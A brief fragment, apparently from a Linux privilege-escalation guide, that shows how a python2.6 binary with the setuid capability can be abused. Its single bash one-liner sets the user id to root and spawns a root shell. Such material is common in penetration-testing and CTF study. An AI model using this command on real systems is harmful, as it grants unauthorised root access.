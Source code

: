 Example:
python2.6 has setuid capabilities. We can exploit it like this:
```bash
python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```